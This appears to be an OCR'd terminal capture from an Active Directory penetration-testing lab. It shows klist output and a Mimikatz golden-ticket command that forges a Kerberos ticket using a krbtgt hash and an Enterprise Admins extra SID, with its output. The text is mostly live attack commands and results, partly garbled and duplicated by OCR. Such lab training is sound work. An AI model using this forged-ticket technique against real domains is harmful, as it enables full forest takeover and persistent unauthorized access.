     13  5f47d51dee42d3f9a52a2d464c291fe5
    14  1763ae4e99694dcf66700106bb303aa5
    15  b7196b13a4fc2a29c18de543912039c2
    16  64689c7d74d2f2908330c62e47b34d75
    17  023f316da4715dd596d4ae6d5b9049cc
    18  fec7644b22077323cc9770c91d205269
    19  5cacbc938eaeb1b3a58572dafed92d97
    20  684ef5f716d49e4274a4ceb48d5fd6ba
    21  99968ef6b4c440cbd652ce6718a9ba39
    22  99968ef6b4c440cbd652ce6718a9ba39
    23  fbd2d7aef9329e981cd1bfdef2924843
    24  38653e1cf10018a3ae60fdb681241f1b
    25  5efd3ccfb3589c3bd6d76738ceeffb92
    26  dcd5dfeec024fe725edcaab5953d2011
    27  d92dcf29cd473a6ebae4b3bca1e578a9
    28  ff0382afc6adb89c00d5bf90cd5f4eca
    29  d7d958214c25d0835547320a0f0faf49

PS C:\Windows\system32> ls \\academy-ea-dc01.inlanefreight.local\c$
ls : Access is denied

klist

Current LogonId is 0:0xc8e6a

Cached Tickets: (5)

#0>     Client: htb-student_adm @ LOGISTICS.INLANEFREIGHT.LOCAL
        Server: krbtgt/LOGISTICS.INLANEFREIGHT.LOCAL @ LOGISTICS.INLANEFREIGHT.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canonicalize
        Start Time: 12/6/2023 4:26:28 (local)
        End Time:   12/6/2023 14:17:48 (local)
        Renew Time: 12/13/2023 4:17:48 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x2 -> DELEGATION
        Kdc Called: ACADEMY-EA-DC02

kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt

689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
User      : hacker
Domain    : LOGISTICS.INLANEFREIGHT.LOCAL (LOGISTICS)
SID       : S-1-5-21-2806153819-209893948-922872689
User Id   : 500
Groups Id : *513 512 520 518 519
Extra SIDs: S-1-5-21-3842939050-3880317879-2865463114-519 ;
ServiceKey: 9d765b482771505cbe97411065964d5f - rc4_hmac_nt
Lifetime  : 12/6/2023 4:29:04 AM ; 12/3/2033 4:29:04 AM ; 12/3/2033 4:29:04 AM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated
